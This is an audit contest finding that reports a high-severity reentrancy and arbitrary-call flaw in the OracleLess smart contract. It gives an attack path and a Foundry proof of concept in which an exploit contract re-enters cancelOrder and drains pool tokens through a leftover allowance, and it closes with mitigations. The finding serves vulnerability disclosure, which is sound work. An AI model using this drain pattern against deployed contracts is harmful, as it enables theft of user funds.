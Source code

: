 Decent Rouge Beetle

High

# An attacker could potentially drain the entire pool balance, including all user funds, from the `OracleLess` contract.

### Summary

The issue with the `OracleLess` contract is that an attacker could drain the entire balance of the `OracleLess` pool in a single transaction. The attacker can create an order large enough to match the pool's balance, then cancel the order to drain the pool. This exploit is possible due to several vulnerabilities in the contract, including granting approvals to arbitrary addresses, allowing execution of arbitrary data, and the absence of a reentrancy guard. These flaws collectively enable an attacker to steal all user and pool funds.


### Root Cause

There are 2 major Root cause.
1. Giving Token allowance to arbitrary target and letting them to execute Arbitrary data.(by the way the same issue make pickle jar to loose upto 20M of there assets).
2. Not implementing safe Guards such as non-reentrant modifier.
 

### Internal pre-conditions

Attacker will just create Order like normal user, and exploit the contract 

### External pre-conditions

_No response_

### Attack Path

Attack Path;
1. Create an order with the `amountIn` parameter equal to the entire pool balance.
2. Modify the order to update the recipient address to the attacker's contract (ExploitContractAddress).
3. Fill the order, setting the `targetAddress` as the Exploit Contract and leaving `transactionData` as empty (""), which grants approval for amountIn.
4. During execution of .call on the `targetAddress`, re-enter the contract via the Exploit Contract, cancel the order, and transfer a small portion of tokenOut back to the contract to meet the `minAmountIn` condition.
5. Collect the funds from the `canceled` order.
6. The contract will transfer the `tokenOut` amount back to the attacker.
7. Use the pre-approved allowance to drain the remaining funds from the `OracleLess` contract.

### Impact

An attacker will steal/drain all user and pool funds and make the pool empty.

### PoC

All the Necessary contract for exploit -  [Exploit.txt](https://github.com/user-attachments/files/18055051/Exploit.txt)
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L240
-> arrange them in the order according of the oracleLess.t.sol, and use pasted oracleLess, IAutomation contract becuase  the permit functionality is removed instaed safeTransferFrom is used.
```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import {OracleLess} from "../contracts/automatedTrigger/OracleLess.sol";
import {IERC20} from "../contracts/interfaces/openzeppelin/IERC20.sol";
import {AutomationMaster} from "../contracts/automatedTrigger/AutomationMaster.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import "../contracts/interfaces/uniswapV3/IPermit2.sol";
import {IERC20} from "../../contracts/interfaces/openzeppelin/IERC20.sol";
// import "./ExploitContract.sol";
// import {ExploitContract} from "./ExploitContract.t.sol";

contract OracleLessTest is Test {
    OracleLess oracleLess;
    MockERC20 tokenIn;
    MockERC20 tokenOut;
    ExploitContract AttackContract;
    // IPermit2 mockPermit2;
    AutomationMaster automationMaster;
    IERC20 public WETH;
    IERC20 public USDT;

    uint256 USER1_AMT = 100 ether;
    uint256 USER2_AMT = 100 ether;

    address deployer = makeAddr("DEPLOYER");
    address user1 = makeAddr("USER1");
    address user2 = makeAddr("USER2");
    address user3 = makeAddr("USER");
    uint16 constant FEE_BIPS = 0;

    address recipient = makeAddr("RECIPENT");
    function setUp() public {
        vm.startPrank(deployer);
        // Deploy mock contracts
        WETH = IERC20(address(new MockERC20("WETH Token In", "WETH", 18)));
        USDT = IERC20(address(new MockERC20("USDT Token Out", "USDT", 18)));
        WETH.transfer(user1, USER1_AMT);
        WETH.transfer(user2, USER2_AMT);

        //   USDT.transfer(user1, USER1_AMT);
        automationMaster = new AutomationMaster();

        // Deploy OracleLess with mocks
        oracleLess = new OracleLess(automationMaster);
        AttackContract = new ExploitContract(address(oracleLess));
        USDT.transfer(address(AttackContract), 10 ether);
        //WETH.transfer(address(oracleLess), 100 ether);
    }

    function testCreateOrder() public returns (uint256 ID) {
        vm.startPrank(user1);
        uint256 genratedOrderID = uint256(
            keccak256(abi.encodePacked(user1, block.timestamp))
        );
        // orde-ID = 45610045041374387955664487361
        WETH.approve(address(oracleLess), 100 ether);
        ID = oracleLess.createOrder(WETH, USDT, 10 ether, 0, user1, FEE_BIPS);

        vm.stopPrank();
        vm.startPrank(user2);
        WETH.approve(address(oracleLess), 100 ether);
        ID = oracleLess.createOrder(WETH, USDT, 10 ether, 0, user2, FEE_BIPS);
        vm.stopPrank();
        vm.startPrank(user1);
        oracleLess.modifyOrder(
            45610045041374387955664487361,
            USDT,
            0,
            9 ether,
            address(AttackContract),
            false
        );
        vm.stopPrank();
       uint256 Before_balanceofWETHAttacker = WETH.balanceOf(address(AttackContract));
        console.log("Before WETH balance of ExploitContract",Before_balanceofWETHAttacker); // 20_000000000000000000 ether
        uint256 Before_balanceofUSDTAttacker = USDT.balanceOf(address(AttackContract));
        console.log("Before USDT balance of ExploitContract",Before_balanceofUSDTAttacker);
         
        vm.startPrank(address(AttackContract));
        oracleLess.fillOrder(
            0,
            45610045041374387955664487361,
            address(AttackContract),
            ""
        );
        AttackContract.initateTransfer();
        uint256 balanceofWETHAttacker = WETH.balanceOf(address(AttackContract));
        console.log("WETH balance of ExploitContract",balanceofWETHAttacker); // 20_000000000000000000 ether
        uint256 balanceofUSDTAttacker = USDT.balanceOf(address(AttackContract));
        console.log("USDT balance of ExploitContract",balanceofUSDTAttacker); // 10_000000000000000000 ether
        vm.stopPrank();
        uint256 balanceofWETH = WETH.balanceOf(address(this));
        console.log("WETH balance of oracleLess contract", balanceofWETH);
        uint256 balanceofUSDT = USDT.balanceOf(address(this));
        console.log("USDT balance of oracleLess contract",balanceofUSDT);
    }
}

contract ExploitContract is Test {
    OracleLess public oracleLess;
    IERC20 public USDT;
      IERC20 public WETH;
    constructor(address _oracleLess) {
        oracleLess = OracleLess(_oracleLess);
        WETH= IERC20(0x62237016348f87F9aFD2EaE4c466901b0D065f0E);
        USDT = IERC20(0x3722068579b7bF71c791C90289bA5918216E1e62);
    }

    function initateTransfer() external {
        // Trigger fillOrder which will call this contract
      WETH.transferFrom(
            address(oracleLess),
            address(this),
            10 ether
        );
    }

    fallback() external {
        oracleLess.cancelOrder(45610045041374387955664487361);
        USDT.transfer(address(oracleLess), 10 ether);
    }
} 

```

![Screenshot 2024-12-09 065817](https://github.com/user-attachments/assets/5f83edc5-e9c5-44fa-be0e-d50519444f2e)
![Screenshot 2024-12-09 065852](https://github.com/user-attachments/assets/d169858b-8c0d-4dd1-93ff-ff9a3112dbf4)


### Mitigation

1. Either hardcode the target address which the protocol will be using to swap the asset, giving user this crucial parameter  is risky
2.  implement the safe guards.